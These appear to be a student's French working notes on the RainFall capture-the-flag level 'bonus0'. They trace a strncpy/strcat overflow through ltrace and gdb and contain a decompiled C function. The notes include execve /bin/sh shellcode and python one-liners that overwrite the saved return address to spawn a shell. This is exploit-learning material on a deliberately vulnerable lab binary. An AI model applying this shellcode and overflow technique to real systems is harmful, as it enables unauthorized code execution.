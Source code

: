 bonus0@RainFall:~$ ltrace ./bonus0 
__libc_start_main(0x80485a4, 1, 0xbffff6f4, 0x80485d0, 0x8048640 <unfinished ...>
puts(" - " - )                                      = 4
read(0, lol"lol\n", 4096)                           = 4
strchr("lol\n", '\n')                               = "\n"
strncpy(0xbffff5d8, "lol", 20)                      = 0xbffff5d8
puts(" - " - )                                      = 4
read(0, lol"lol\n", 4096)                           = 4
strchr("lol\n", '\n')                               = "\n"
strncpy(0xbffff5ec, "lol", 20)                      = 0xbffff5ec
strcpy(0xbffff626, "lol")                           = 0xbffff626
strcat("lol ", "lol")                               = "lol lol"
puts("lol lol"lol lol)                              = 8

En testant 20 * A dans le premier read et 20 * B dans le deuxieme
En mettant un break point a la fin du main j'arrive a obtenir une valeur de ebp modifier

ebp            0x42424242       0x42424242
eip = 0x80485cb in main; saved eip 0x42424242

Donc le retour de la fonction main est modifier
On va surement pouvoir envoyer un shellcode de cette maniere

On reprend notre shellcode : "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

40 pour le premier ?
Offset 9 pour le deuxieme read

0x bf ff f6 10
r < <(python -c 'print "\x90"*20 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"' ; python -c 'print "\x90"*20 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')


Chercher une valeur dans la memoire : 

(gdb) find START_ADDR, END_ADDR, VALEUR

Obtenir la plage memoire :

(gdb) info proc mappings

Exemple :

(gdb) find $esp, +1000, 0x41
(gdb) find $esp, +1000, 0x6a, 0x0b, 0x58, 0x99


Ok donc avec ca on reprend du debut parce que la c'est la cata cata

Avec breakpoint dans p()
Avant leave
(gdb) find $esp, +1000, 0x41414141
0xbfffe590
(gdb) find $esp, +1000, 0x42424242
0xbfffe590

Apres leave :
(gdb) find $esp, +1000, 0x41414141
0xbffff5c8
(gdb) find $esp, +1000, 0x42424242
0xbffff5dc



Avec breakpoint dans pp()
Avant leave :
(gdb) find $esp, +1000, 0x41414141
0xbffff616
(gdb) find $esp, +1000, 0x42424242
0xbffff61b
Pas de leave dans pp()

Avec breakpoint dans main()
(gdb) find $esp, +1000, 0x42424242
0xbffff61b
(gdb) find $esp, +1000, 0x41414141
0xbffff616
donc dans le contexte du main les adresses et valeurs sont identiques

Regardons apres le leave :
(gdb) find $esp, +1000, 0x42424242
Pattern not found.
(gdb) find $esp, +1000, 0x41414141
Pattern not found.

not found car %esp est mov dans %ebp donc le find ne trouve pas a partir de %esp mais les valeurs/adresses sont toujours bien la :

(gdb) x/x 0xbffff61b
0xbffff61b:     0x42424242
(gdb) x/x 0xbffff616
0xbffff616:     0x41414141

(gdb) find 0xbffff616, +1000, 0xb7e454d3
0xbffff64c
0xbffff64c:     0xb7e454d3

On a notre adresse a modifier et sa position dans la stack ! MAGNIFIKE MA CHERIE


r < <(python -c 'print "A"*40'; python -c 'print "\x90" * 9 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x4c\xf6\xff\xbf"')


```c
char* pp(char* arg1) {
    char buffer1[48];  // [ebp-0x30]
    char buffer2[28];  // [ebp-0x1c]
    
    p(buffer1, data_80486a0);  // Premier input: AAAAA...
    p(buffer2, data_80486a0);  // Deuxième input: BBBBB...
    
    strcpy(arg1, buffer1);     // Copie AAAAA dans arg1
    
    size_t len = strlen(arg1); // Trouve la longueur de arg1
    arg1[len] = ' ';          // Ajoute un espace
    
    strcat(arg1, buffer2);     // Ajoute BBBBB à la suite
}
```

`arg1` est en fait le `str` déclaré dans le `main()`. C'est là qu'est la vulnérabilité:

1. `buffer1` contient 20 'A' (sans null byte)
2. `buffer2` contient 20 'B' (sans null byte)
3. Quand on copie `buffer1` dans `str`, on a 20 'A'
4. On ajoute un espace
5. Quand `strcat` ajoute `buffer2`, il va écrire les 20 'B' à la suite

Donc dans `str`, on va avoir:
```
AAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBB
```

C'est 41 caractères dans un buffer de 42, mais comme il n'y a pas de null byte entre les A et les B, on peut déborder et écraser la mémoire au-delà de `str`.

La vulnérabilité est donc dans le fait qu'on peut écrire plus que la taille prévue de `str` grâce à l'absence de null bytes dans les `strncpy` précédents.


--> En realite le buffer est ecrit en memoire, seulent 20 bytes sont copier dans le strncpy mais on s'en fou frerot

r < <(python -c 'print "A"*20'; python -c 'print "B"*20')


(gdb) find $esp, +1000, 0x41414141
0xbffff706
0xbffff707
0xbffff708
0xbffff709
0xbffff70a
0xbffff70b
0xbffff70c
0xbffff70d
0xbffff70e
0xbffff70f
0xbffff710
0xbffff711
0xbffff712
0xbffff713
0xbffff714
0xbffff715
0xbffff716
17 patterns found.
